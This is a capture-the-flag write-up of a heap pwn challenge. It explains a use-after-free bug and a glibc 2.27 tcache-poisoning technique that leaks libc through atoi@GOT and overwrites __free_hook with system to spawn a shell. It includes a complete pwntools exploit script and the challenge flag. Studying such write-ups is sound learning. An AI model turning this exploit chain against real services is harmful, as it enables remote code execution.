







## NACTF: covid tracker tracker tracker [pwn]


## Note to self:
#### I didn't solve this during the duration of the competition, but rather after reading some of the writeups. I did an analysis of HK's [writeup](https://gist.github.com/hkraw/3b518632e18681669d09e7ccc1db2cba) but made some tweaks of my own, particularly in the last stages of the exploit since I couldn't fully understand how his worked. This is the first heap exploit that I will be covering, thus I will try to make it as understandable as I can, so it may serve as a future reference for me when doing more heap in the future. There's still a long way of learning to go, just focus. You got this. I will try to make another attempt at making this more understandable for other people to, but for now this will suffice.

## Static Analysis
#### For this challenge, we were given the challenge binary, the libc it uses, and the linker to work with. First thing I did was to run checksec on the binary, and I was not surprised to see almost every protection (except PIE) turned on. 

```
$ checksec cttt
[*] '/home/chooey/Desktop/NACTF/pwn_cttt/cttt'
	Arch: amd64-64-little
	RELRO: Full RELRO
	Stack: Canary found
	NX: NX enabled
	PIE: No PIE (0x400000)
```

#### I then used patchelf to change the linker that the binary will use. Next, using strings I tried to determine the glibc version which is used. The glibc version is an important part of (every) heap exploitation challenge, as certain glibc versions have countermeasures against heap allocator misuse. Knowing which glibc version is being used will help us narrow down what vulnerabilities we are able to leverage and which techniques we are able to use.

```
$ patchelf --set-interpreter ./ld-linux-x86-64.so.2 ./cttt
$ strings libc.so.6 | grep version
[...]
GNU C Library (Ubuntu GLIBC 2.27-3ubuntu1) stable release version 2.27
```

#### Know we now that the challenge uses glibc 2.27, a noteable feature of this version is the implementation of the tcache bins. After that, I proceeded to test out my new friend `pwninit`. Reading some heap writeups, I plan to use pwninit to unstrip the libc (to make it easier for us to debug) and help us retrieve the linker used (if it wasn't provided). I then did a quick test run of what the binary does. It presents us a menu-style challenge. 


#### I opened the binary in GHIDRA in order to have a better understanding of its inner workings. There are four functions of interest for us: add, edit, delete, and list. The decompiled code and explanation of what it does are as follows:

## add()


#### From what we can see, there is a limit to how many trackers can be allocated and it caps at 0x10 (16). Every allocation is of size 0x40 and each pointer is stored in a global variable called urls. 

## edit()


#### edit simply allows us to, well, edit the content (body) of the chunk (tracker) that we specify. It only allows input of size 0x40 and null terminates it. 

## delete()


#### This part is where it starts to get interesting. Before freeing a chunk, the function first checks if it's entry in the is_deleted array is set to 1; that is to say that the chunk has already been deleted so it shouldn't do anything with it. This is simply a protective measure against double frees. In the case that it hasn't been freed yet, it proceeds to free the said chunk and set it's is_deleted entry to 1. The problem relies with the fact that after freeing the chunk, it didn't NULL out the pointer thus leading to a `use-after-free` vulnerability.

#### insert use-after-free explanation here.

## list()


#### it just prints out the current allocated chunks and the data that each chunk holds.

## Creating utilities
#### Given this information, I began to write the first parts of my exploit script to interact with the challenge binary. We need to specify the LD_PRELOAD env variable in order to make sure that the binary uses the correct version of libc.

```python
from pwn import *

#: Connect to challenge process

binary = ELF('./cttt', checksec = False)
libc = ELF('./libc.so.6', checksec = False)
p = process('./cttt', env = {'LD_PRELOAD' : './libc.so.6'})
#p = remote('challenges.ctfd.io', 30252)
script = '''
break *add + 91
break *edit
break *delete + 122
'''
gdb.attach(p.pid, gdbscript=script)

#: Helper functions
def add_tracker():
	print(p.recvuntil('> '))
	p.sendline('1')

def edit_tracker(tracker_number, url):
	print(p.recvuntil('> '))
	p.sendline('2')
	p.sendlineafter('?\n', tracker_number)
	p.sendlineafter('?\n', url)

def delete_tracker(tracker_number):
	print(p.recvuntil('> '))
	p.sendline('3')
	p.sendlineafter('?\n', str(tracker_number))

def list_trackers():
	print(p.recvuntil('> '))
	p.sendline('4')
	print(p.recv())
```

## Tcache Poisoning
#### Now from here where do we go next? For basic heap challenges like this one, the general plan is to leak a libc adress then overwrite a hook with system's address. In the writeup I'm analyzing, HK used a technique called `tcache poisoning` in order to leak the libc address of atoi@GOT then calculate the libc base from the leaked offset. 

#### Basically, tcache poisoning is a technique that tricks malloc into returning an arbitrary pointer that we can control to us. This is what we'll be doing with the use-after-free vulnerability. To provide a better understanding of how the technique works, we can consult [shellphish's how2heap](https://github.com/shellphish/how2heap/blob/master/glibc_2.27/tcache_poisoning.c) reference.

## Leaking atoi@GOT
#### Since we know we have a uaf vulnerability, we can use this to edit freed chunks. What this does is that it edits the fd pointer of the chunk, and therefore we are able to edit its entry in the tcachebin. If we are able to edit these tcache pointer values, we can trick malloc into returning a pointer into a region of memory that we can control.

#### In the exploit script, we initially allocate two trackers and delete both of them. The pointer to these chunks will then be added into the tcache bin which will look something like this:
```
pwndbg> tcachebins
tcachebins
0x50 [ 2]: 0x1f882c0 -> 0x1f88270 <- 0x0
```

#### Now, we edit the fd pointer of the last chunk that we freed with the address of atoi@GOT. By doing so, we will get a pointer to the global offset table entry of atoi:
```
pwndbg> tcachebins
tcachebins
0x50 [ 2]: 0x1f882c0 -> 0x403df0 (_GLOBAL_OFFSET_TABLE_+80) -> 0x7af53c582680 (atoi) <- ...
```

#### We then proceed to allocate two more chunks. Knowing how the allocator works, it releases the first pointer into the first chunk we create and gives the pointer to atoi into the second chunk allocated. Simply calling the list utility will print out the contents of each chunk for us, and with it the leak is also printed. We can then continue to calculate the libc base address by simply subtracting the leaked value from the offset of atoi in libc. 

## `__free_hook`
#### The next step is then to acquire a pointer to `__free_hook`. The gist of free hook is that when a chunk has this pointer value set to any value other than null, libc_free() will call this pointer first before actually freeing the program. In other words, we can use this to execute a function of our choosing when we free a chunk. 

#### Following the same approach as last time, we delete a tracker then edit it's content to the address of `__free_hook`. This is simpler now since we have already acquired the libc base address earlier. Now here is where you need to pay attention. When editing the fd pointer with free hook's address, it's pointer gets added into the tcache. To demonstrate, first we delete a previously allocated chunk (in this case we chose chunk #3). The tcache looks like this as of the moment:
```
pwndbg> tcachebins
tcachebins
0x50 [ 2]: 0x1f882c0 -> 0x7af53c582680 (atoi) <- ... 
```

#### Now we edit the freed chunk with the address of free hook and it will now look like this:
```
pwndbg> tcachebins
tcachebins
0x50 [ 2]: 0x1f882c0 -> 0x7af53c92f8e8 (__free_hook) <- ...
```

#### Note that malloc will treat this pointer as a chunk, rather than a simple pointer itself. My next step was to create 3 new allocations: the first (#5) will get the first entry of the tcache, second (#6) will be allocated with the pointer to `__free_hook`, and the last (#7) will be a completely new allocation. 

#### We will use the last allocation to store the string '/bin/sh' then free this later. Next is to overwrite chunk #6 which holds the hook pointer, to the address of system. With this, we can now call system whenever we free a chunk. Finally, we can now delete chunk 7 which behind the scenes will call system('/bin/sh') and pop a shell. Full exploit code below:
```python
from pwn import *

#: Connect to challenge process

binary = ELF('./cttt', checksec = False)
libc = ELF('./libc.so.6', checksec = False)
#p = process('./cttt', env = {'LD_PRELOAD' : './libc.so.6'})
p = remote('challenges.ctfd.io', 30252)
script = '''
break *add + 91
break *edit
break *delete + 122
'''
#gdb.attach(p.pid, gdbscript=script)

#: Helper functions
def add_tracker():
	print(p.recvuntil('> '))
	p.sendline('1')

def edit_tracker(tracker_number, url):
	print(p.recvuntil('> '))
	p.sendline('2')
	p.sendlineafter('?\n', tracker_number)
	p.sendlineafter('?\n', url)

def delete_tracker(tracker_number):
	print(p.recvuntil('> '))
	p.sendline('3')
	p.sendlineafter('?\n', str(tracker_number))

def list_trackers():
	print(p.recvuntil('> '))
	p.sendline('4')
	print(p.recv())

add_tracker()
add_tracker()
delete_tracker('1') #: tcache[0]
delete_tracker('2') #: tcache[1]
edit_tracker('2', p64(binary.got['atoi'])) #: use-after-free, edits fd pointer 
add_tracker() 
add_tracker()

#: retrieve trackers, leak libc
p.recvuntil('> ')
p.sendline('4')
libc_base = u64(p.recvuntil('Total: ').split('\n')[4].split()[1].ljust(8, '\x00')) - libc.symbols['atoi']
print(hex(libc_base))
print(hex(libc.symbols['system']))
print(hex(libc.symbols['__free_hook']))

delete_tracker('3')
edit_tracker('3', p64(libc_base + libc.symbols['__free_hook']))
add_tracker() #: 5 <- address of chunk #3
add_tracker() #: 6 <- pointer to __free_hook
add_tracker() #: 7 <- new allocation
edit_tracker('7', '/bin/sh\x00')
edit_tracker('6', p64(libc_base + libc.symbols['system'])) #: edit __free_hook to system
delete_tracker('7')
p.interactive()

#: nactf{d0nt_us3_4ft3r_fr33_zsouEFF4bfCI5eew}
```

#### See the beautiful exploit in action and retrieve the flag.
